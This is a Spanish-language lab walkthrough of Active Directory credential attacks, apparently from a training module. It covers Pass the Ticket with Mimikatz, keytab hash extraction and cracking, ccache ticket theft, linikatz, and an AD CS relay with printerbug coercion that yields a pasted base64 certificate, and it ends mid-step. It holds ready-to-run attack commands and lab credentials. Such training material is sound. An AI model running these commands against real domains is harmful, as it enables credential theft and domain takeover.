>Los archivos que terminan en `@krbtgt-INLANEFREIGHT.HTB.kirbi` son, en realidad, TGTs (Ticket Granting Tickets: los tickets que realmente necesitamos).

>Los archivos con `@cifs-DC01...` , `@ldap-DC01...` , `@DNS-dc01...` y `@GC-DC01...` son boletos TGS para servicios específicos (SMB, LDAP, DNS, Catálogo Global).

>Los nombres de archivo que contengan `john@krbtgt...` , `david@krbtgt...` o `julio@krbtgt...` corresponden a los TGT de usuario asociados a esas cuentas específicas.

>Los nombres de archivo que contengan `MS01$@...` corresponden a tickets relacionados con la cuenta de la máquina MS01.

>Al contar los archivos `@krbtgt` que pertenecen a las cuentas de usuario john, david y julio, encontramos 3 TGT de usuario en total.

<p align="center"> 

</p>

answer: **3**

2. **Use john's TGT to perform a Pass the Ticket attack and retrieve the flag from the shared folder \\DC01.inlanefreight.htb\john**

```
.\mimikatz.exe
kerberos::ptt "C:\\tools\\[0;497b1]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"
```

> `kerberos::ptt` carga la información del ticket `.kirbi` directamente en la memoria de caché de tickets de la sesión de inicio de sesión en Windows actual. Después de salir de Mimikatz, nuestra sesión ahora contiene el TGT de John. Esto significa que cualquier solicitud de acceso a recursos que requiera autenticación Kerberos se realizará en nombre de John.

<p align="center"> 

</p>

```
exit
dir \\DC01.inlanefreight.htb\\john
type \\DC01.inlanefreight.htb\\john\\john.txt
```

answer: **Learn1ng_M0r3_Tr1cks_with_J0hn**

3. **Use john's TGT to perform a Pass the Ticket attack and connect to the DC01 using PowerShell Remoting. Read the flag from C:\john\john.txt**

>Dado que el ticket sigue estando activo en nuestra sesión, también podemos utilizarlo para abrir una sesión de remoto mediante PowerShell con el equipo DC01. No es necesario introducir ninguna contraseña.

>`whoami` Aquí se seguirá mostrando `Administrator` (nuestra identidad local). Pero ahora, la memoria caché de Kerberos contiene el TGT de John. La diferencia clave radica en la identidad local frente a la identidad de red. Cuando nos conectamos a través de la red, Kerberos utiliza el TGT proporcionado, y no nuestra cuenta local.

>Después de `Enter-PSSession` , `whoami` mostrará ahora la identidad de John, ya que la credencial Kerberos se utilizó para autenticar la sesión remota. Lea la información correspondiente.

```
Enter-PSSession -ComputerName DC01
whoami
type C:\\john\\john.txt
```

<p align="center"> 

</p>

answer: `P4$$_th3_Tick3T_PSR`

4. **Optional: Try to use both tools, Mimikatz and Rubeus, to perform the attacks without relying on each other. Mark DONE when finish.**

answer: **Done**

### Pass the Ticket (PtT) from Linux

1. **Connect to the target machine using SSH to the port TCP/2222 and the provided credentials. Read the flag in David's home directory.**

SSH to with user "<font color="#00b050">david@inlanefreight.htb</font>" and password "<font color="#c00000">Password2</font>"

```
ssh david@inlanefreight.htb@10.129.55.202 -p 2222
cat flag.txt
```

answer: `Gett1ng_Acc3$$_to_LINUX01`

2. **Which group can connect to LINUX01?**

```
realm list
```

> `realm` forma parte del paquete `realmd` , el cual se utiliza para conectar las máquinas Linux a los dominios de Active Directory. `realm list` muestra los detalles de la inscripción en el dominio en ese momento, incluyendo qué grupos de Active Directory tienen permiso para iniciar sesión. Esto nos indica qué grupos debemos tener en cuenta para obtener acceso a los recursos del sistema.

<p align="center"> 

</p>

3. **Look for a keytab file that you have read and write access. Submit the file name as a response.**

>Un archivo keytab almacena los datos de identificación de los usuarios Kerberos, así como sus claves encriptadas. En esencia, se trata del equivalente en Linux de las credenciales de acceso almacenadas. Si logramos leer dicho archivo, podremos extraer los valores hash que contiene.

Busque en el sistema de archivos cualquier archivo tipo keytab al que tengamos acceso.

```
find / -name '*keytab*' -ls 2>/dev/null
```

`-name '*keytab*'` coincide con cualquier nombre de archivo que contenga “keytab”. `2>/dev/null` evita que aparezcan los errores de “permisos denegados”, de modo que solo se muestren los resultados a los que realmente se puede acceder. El objetivo es encontrar un archivo keytab para el cual el usuario actual cuente con permisos de lectura (o escritura).

```
find / -name '*keytab*' -ls 2>/dev/null
```

<p align="center"> 

</p>

answer: **carlos.keytab**

4. **Extract the hashes from the keytab file you found, crack the password, log in as the user and submit the flag in the user's home directory.**

> `KeyTabExtract` es una herramienta en Python que analiza los archivos de tipo keytab y extrae de ellos los valores en formato NTLM hash. Clónela en la máquina del atacante y sígala a través de FTP.

En nuestra kali descargamos dicha herramienta y luego activaremos el puerto 21 para compartir el archivo.

```
git clone https://github.com/sosdave/Keytabextract.py
cd KeyTabExtract
sudo python3 -m pyftpdlib --port 21
```

En linux, descargamos el archivo en la carpeta **/tmp**

```
curl -o keytabextract.py ftp:/10.10.14.40/keytabextract.py
chmod +x keytabextract.py
python3 keytabextract.py /opt/specialfiles/carlos.keytab
```

<p align="center"> 

</p>

Una vez obtenido el Hash NTLM de Carlos usaremos la herramienta hashcat para descifrar la contraseña.

```
hashcat -a 0 -m 1000 a738f92b3c08b424ec2d99589a9cce60 /usr/share/wordlists/rockyou.txt
```

Credenciales --> **carlos**:**Password5**

```
su carlos@inlanefreight.htb
cat /home/carlos@inlanefreight.htb/flag.txt
```

answer: **C@rl0s_1$_H3r3**

5. **Check Carlos' crontab, and look for keytabs to which Carlos has access. Try to get the credentials of the user svc_workstations and use them to authenticate via SSH. Submit the flag.txt in svc_workstations' home directory.**

```
crontab -l
```

<p align="center"> 

</p>

El crontab muestra que hay un script que se ejecuta periódicamente.

```
cat /home/carlos@inlanefreight.htb/.scripts/kerberos_script_test.sh
```

El contenido sería tal que así:

```bash
#!/bin/bash

kinit svc_workstations@INLANEFREIGHT.HTB -k -t /home/carlos@inlanefreight.htb/.scripts/svc_workstations.kt
smbclient //dc01.inlanefreight.htb/svc_workstations -c 'ls'  -k -no-pass > /home/carlos@inlanefreight.htb/script-test-results.txt
```

El script hace referencia a un archivo de claves que pertenece a `svc_workstations` . Es decir, el crontab de Carlos utiliza las claves de ese usuario para autenticarse. Podemos leer ese archivo de claves.

Uso la herramienta que use el anterior ejercicio **keytabextract.py** sobre la tabla de teclas `svc_workstations` a la que se hace referencia en el script. 

<p align="center"> 

</p>

No hemos encontrado ningún hash NTLM que pueda ser utilizado para el cracking. Para asegurarnos de no haber pasado nada por alto, buscamos en el sistema de archivos todos los archivos con la extensión `.kt` .

```
find / -name '*.kt*' -ls 2>/dev/null
```

```
262618      4 -rw-------   1 carlos@inlanefreight.htb domain users@inlanefreight.htb      246 May 18 12:40 /home/carlos@inlanefreight.htb/.scripts/svc_workstations._all.kt
262607      4 -rw-------   1 carlos@inlanefreight.htb domain users@inlanefreight.htb       94 May 18 12:40 /home/carlos@inlanefreight.htb/.scripts/svc_workstations.kt
```

Esto revela un archivo clave adicional: `svc_workstations._all.kt` . Extraiga también el contenido de ese archivo.

```
python3 keytabextract.py /home/carlos@inlanefreight.htb/.scripts/svc_workstations._all.kt
```

hashNTLM: **7247e8d4387e76996ff3f18a34316fdd**

```
hashcat -a 0 -m 1000 7247e8d4387e76996ff3f18a34316fdd /usr/share/wordlists/rockyou.txt
```

Credenciales --> **Password4**

Por ssh nos logueamos:

```
ssh svc_workstations@inlanefreight.htb@10.129.56.10 -p 2222
contraseña: Password4
```

Leemos el archivos que nos encontramos justo cuando nos logueamos.

answer: `Mor3_4cce$$_m0r3_Pr1v$`

6. **Check the sudo privileges of the svc_workstations user and get access as root. Submit the flag in /root/flag.txt directory as the response.**

```
sudo -l
contraseña --> Password4
```

<p align="center"> 

</p>

La salida indica que este usuario puede ejecutar comandos con privilegios de root. En otras palabras, cuenta con acceso total como root.

```
sudo su
cat /root/flag.txt
```

answer: `Ro0t_Pwn_K3yT4b`

7. **Check the /tmp directory and find Julio's Kerberos ticket (ccache file). Import the ticket and read the contents of julio.txt from the domain share folder \\DC01\julio.**

En Linux, los archivos de caché de credenciales de Kerberos se suelen almacenar en la carpeta `/tmp` . Estos archivos son legibles siempre y cuando los permisos lo permitan. Para encontrarlos, busque archivos con el nombre `krb5cc_*`. Cada uno de estos archivos corresponde a una sesión de inicio de sesión diferente, identificada por el sufijo UID.

```
ls -lah /tmp
```

<p align="center"> 

</p>

Importe el primer “ticket” y compruébelo. Vaya a la carpeta /tmp y establezca la variable de entorno KRB5CCNAME para que apunte al archivo ccache de Julio. De esta manera, las bibliotecas Kerberos utilizarán este “ticket” para todas las autenticaciones posteriores.

`klist` muestra el contenido del ticket que se encuentra cargado en ese momento: el nombre de la persona a quien corresponde el ticket, la fecha en que fue emitido, la fecha de vencimiento y para qué servicios es válido. De esta manera, podemos saber a quién pertenece el ticket y si aún está válido. Parece que el ticket ya ha vencido.

```
cd /tmp  
export KRB5CCNAME=krb5cc_647401106_HRJDux
klist
```

<p align="center"> 

</p>

```
smbclient //DC01/julio -k -c ls -no-pass
```

* `-k` indica a smbclient que utilice la autenticación Kerberos (utilizando el “ticket” indicado en `KRB5CCNAME` ). 
* `-c ls` ejecuta el comando `ls` inmediatamente después de conectarse. 
* `-no-pass` omite las solicitudes de contraseña, ya que nos basamos exclusivamente en el “ticket” para la autenticación.

Resultado:

>gensec_spnego_client_negTokenInit_step: gse_krb5: creating NEG_TOKEN_INIT for cifs/DC01 failed (next[(null)]): NT_STATUS_INVALID_PARAMETER

>session setup failed: NT_STATUS_INVALID_PARAMETER

eso significa que la opción marcada ya ha expirado, por lo que no se ha podido llevar a cabo.

Intente utilizar el segundo archivo de tipo ccache. Este aún no ha expirado. **La idea es hacerlo lo más rapido posible ya que caduca.**

```
export KRB5CCNAME=krb5cc_647401106_jUocTH
klist
smbclient //DC01/julio -N
get julio.txt
```

answer: **JuL1()_SH@re_fl@g**

8. **Use the LINUX01$ Kerberos ticket to read the flag found in \\DC01\linux01. Submit the contents as your response (the flag starts with Us1nG_).**

Las máquinas Linux que forman parte de un dominio tienen su propio “ticket” Kerberos: la cuenta de la máquina, denominada TGT. Este “ticket” se almacena en la memoria caché del SSSD. Si podemos acceder a él como usuario “root”, podremos utilizarlo para autenticarnos como esa cuenta de la máquina y, así, acceder a los recursos a los que dicha cuenta tiene permiso para acceder.

`linikatz` es una implementación de los conceptos de Mimikatz para Linux. Permite extraer tickets Kerberos, datos de autenticación y otras credenciales almacenadas en la máquina Linux. Descárguelo en la máquina del atacante y úselo para sus propósitos maliciosos.

```
wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh
chmod +x linikatz.sh
```

Luego en la ssh nos descargamos el programa en **tmp**.

```
curl -o linikatz.sh ftp:/10.10.14.40/linikatz.sh
chmod +x linikatz.sh
./linikatz.sh
```

<p align="center"> 

</p>

Establezca que `KRB5CCNAME` apunte al archivo de caché SSSD. `klist` confirmará que el “ticket” es válido.

```
export KRB5CCNAME=/var/lib/sss/db/ccache_INLANEFREIGHT.HTB  
klist
```

<p align="center"> 

</p>

Acceda a la unidad compartida \DC01\linux01 y lea el contenido de ese archivo.

```
smbclient //DC01/linux01 -N
ls  
get flag.txt  
exit
```

<p align="center"> 

</p>

answer: **Us1nG_KeyTab_Like_@_PRO**

9. **Transfer Julio's ccache file from LINUX01 to your attack host. Follow the example to use chisel and proxychains to connect via evil-winrm from your attack host to MS01 and DC01. Mark DONE when finished.**

answer: **DONE**

10. **From Windows (MS01), export Julio's ticket using Mimikatz or Rubeus. Convert the ticket to ccache and use it from Linux to connect to the C disk. Mark DONE when finished.** 

answer: **DONE**

### Pass the Certificate

El “Pass the Certificate” (PtC) es una técnica de ataque contra Active Directory que aprovecha los Servicios de Certificados de Active Directory (AD CS) para obtener tickets Kerberos o valores hash de tipo NTLM, sin necesidad de conocer la contraseña del usuario. La secuencia de ataques suele funcionar de la siguiente manera:

* Envía una solicitud de autenticación NTLM al punto de enlace para registro en la web de AD CS, a fin de obtener un certificado.
* Utilice ese certificado junto con PKINIT (criptografía de clave pública para la autenticación inicial) para solicitar un TGT.
* Extraiga el hash NT o utilice directamente el TGT para autenticarse como el usuario o la máquina objetivo.

1. **What are the contents of flag.txt on jpinkman's desktop?**

Authenticate to with user "<font color="#00b050">wwhite</font>" and password "<font color="#c00000">package5shores_topher1</font>"

<p align="center"> 

</p>

**ACADEMY-PWATTCK-PTCCA01** --> 10.129.234.172 (En esta ip se encuentra el certificado **certfnsh.asp**)

**ACADEMY-PWATTCK-PTCDC01** --> 10.129.234.174 (Servidor)

Para empezar Tendremos que crear un entorno virtual 

```
python3 -m venv mi_entorno
source mi_entorno/bin/activate
```

IMPORTANTE HAY QUE DESCARGARSE IMPACKET CON LA VERSION 0.9.24 [aquí](https://github.com/fortra/impacket/releases)

<p align="center"> 

</p>

Para descomprimir el paquete de impacket usaremos el siguiente comando:

```
tar -xvzf impacket-0.9.24.tar.gz
cd impacket-0.9.24
pip3 install -r requirements.txt
```

<p align="center"> 

</p>

Luego haremos una serie de comandos para seguir configurando el impacket dentro de la carpeta impacket

```
pip3 install .
pip3 install --upgrade pip setuptools
python3 setup.py install
```

Una vez terminada la configuración, instalamos dentro de la carpeta **impacket** la herramienta **ntlmrelayx.py**

>**Es un "intermediario malicioso" (un ataque Man-in-the-Middle)**. Su función principal es interceptar la autenticación de una máquina o usuario de Windows y **retransmitirla (hacer _relay_)** en tiempo real hacia otro servidor de la red para tomar el control de este sin necesidad de descifrar la contraseña.

```
wget https://github.com/fortra/impacket/raw/refs/heads/master/examples/ntlmrelayx.py
chmod +x ntlmrelayx.py
pip install "pyOpenSSL<24.0.0"
ntlmrelayx.py -t http://10.129.234.172/certsrv/certfnsh.asp --adcs -smb2support --template KerberosAuthentication
```

Ahora tendremos que esperar a que el programa reciba la certificación.

Abrimos una nueva termina, usaremos la herramienta **printerbug.py** 

>Si `ntlmrelayx.py` es el receptor que hace el puente, **`printerbug.py` es el anzuelo (o el detonador)**.

>Su única función es **obligar a un servidor de Windows (normalmente un Controlador de Dominio) a que se conecte automáticamente a tu máquina Kali** y te envíe sus credenciales por la red sin que ningún usuario tenga que hacer clic en nada.

>En el mundo de la ciberseguridad, a esto se le llama una herramienta de **coerción de autenticación** (Coerced Authentication).

```
python3 printerbug.py INLANEFREIGHT.LOCAL/wwhite:"package5shores_topher1"@10.129.234.174 10.10.15.111
```

<p align="center"> 

</p>

Volviendo a la terminal anterior, recibiremos el puñetero certificado.

<p align="center"> 

</p>

>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

Lo guardaremos en un archivo llamado **DC01$.pfx**, el siguiente comando descodificará con `base64 -d` para convertirlo en un archivo binario utilizable, es decir, un archivo `.pfx`

